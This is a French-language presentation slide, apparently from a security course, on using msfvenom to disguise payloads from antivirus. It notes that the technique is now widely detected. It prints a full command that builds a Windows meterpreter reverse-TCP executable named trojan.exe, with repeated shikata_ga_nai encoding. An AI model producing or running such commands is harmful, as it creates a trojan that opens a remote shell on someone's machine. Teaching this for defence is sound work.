

# Les outils
Msfvenom : Modifier le payload pour pour éviter qu’il soit détecté par les antivirus mais victime de son succès la signature de cette commande est intégré dans la plupart des antivirus utilisé de nos jours
msfvenom –p windows/x64/meterpreter_reverse_tcp LHOST=192.168.1.15           LPORT=5555 –f exe –e x86/shikata_ga_nai –i 10 >trojan.exe